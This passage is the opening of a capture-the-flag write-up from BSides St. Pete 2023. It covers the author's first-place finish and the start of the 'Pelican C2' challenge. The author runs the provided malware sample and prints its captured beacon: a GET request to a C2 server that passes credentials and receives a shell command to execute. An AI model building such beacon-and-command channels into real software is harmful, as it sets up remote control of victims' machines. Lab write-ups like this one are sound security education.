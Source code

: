 - BSides ST. Pete was a blast, lot's of different companies and i'm sure tons of great talks, but i was busy competing!
- the CTF was very interesting as it involved many different topics.  

## placement

- we placed first in the ctf finishing with 3666 points!

![](assets/images/BSIDESSTPETE23_SCOREBOARD.jpg)

## challenge writeups

- i'll mainly only talk about the challenges i solved and ones that i thought were fun.

### Pelican C2 - User

##### Challenge Description
```
We managed to get our hands on a malware sample being distributed by the Pelicans. We have reason to believe it points to one of their C2 servers. Can you analyze the sample and hack into the server?
```

- we start off the challenge with a zip file that has some "malware", i download this "malware", open up wireshark and run it :D
- from there i can see that it's beaconing out to an ip address with some credentials and recieves a command to run on my machine:

```bash
GET /api/pelican/callback?email=pwn2@bsidesstpete.com&password=c4a6b07beeb6f8fb3dee3a969f5ae HTTP/1.1
Host: 172.17.0.2:1337
Accept: */*

HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 18 Sep 2023 01:00:41 GMT
Connection: close
Content-Type: application/json
Content-Length: 53

{"callback":"touch pwned_by_pelican","success":true}
```
